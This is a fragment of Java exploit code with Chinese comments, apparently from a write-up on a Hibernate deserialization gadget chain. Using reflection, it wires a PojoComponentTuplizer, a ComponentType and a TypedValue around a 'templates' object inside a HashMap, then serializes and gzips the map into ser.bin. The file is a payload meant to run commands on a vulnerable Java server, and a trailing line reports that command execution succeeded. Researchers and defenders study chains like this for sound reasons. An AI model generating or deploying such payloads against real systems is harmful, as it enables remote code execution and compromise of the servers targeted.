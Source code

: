 ```
        // 创建 PojoComponentTuplizer 实例，用来触发 Getter 方法
        Object tuplizer = createWithoutConstructor(pojoComponentTuplizerClass);

        // 反射将 BasicGetter 写入 PojoComponentTuplizer 的成员变量 getters 里
        Field field = abstractComponentTuplizerClass.getDeclaredField("getters");
        field.setAccessible(true);
        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);
        field.set(tuplizer, getters);

        // 创建 ComponentType 实例，用来触发 PojoComponentTuplizer 的 getPropertyValues 方法
        Object type = createWithoutConstructor(componentTypeClass);

        // 反射将相关值写入，满足 ComponentType 的 getHashCode 调用所需条件
        Field field1 = componentTypeClass.getDeclaredField("componentTuplizer");
        field1.setAccessible(true);
        field1.set(type, tuplizer);

        Field field2 = componentTypeClass.getDeclaredField("propertySpan");
        field2.setAccessible(true);
        field2.set(type, 1);

        Field field3 = componentTypeClass.getDeclaredField("propertyTypes");
        field3.setAccessible(true);
        field3.set(type, new Type[]{(Type) type});

        // 创建 TypedValue 实例，用来触发 ComponentType 的 getHashCode 方法
        TypedValue typedValue = new TypedValue((Type) type, null);

        // 创建反序列化用 HashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(typedValue, "aaa");

        // put 到 hashmap 之后再反射写入，防止 put 时触发
        Field valueField = TypedValue.class.getDeclaredField("value");
        valueField.setAccessible(true);
        valueField.set(typedValue, templates);

        byte[] serialize = Serializer.serialize(hashMap);
        String fileName = "ser.bin";
        FileOutputStream fos = new FileOutputStream(fileName);
        GZIPOutputStream gzip = new GZIPOutputStream(fos);
        gzip.write(serialize);
        gzip.finish();
        fos.close();
    }
}
```  
  
  
执行命令成功后  
  
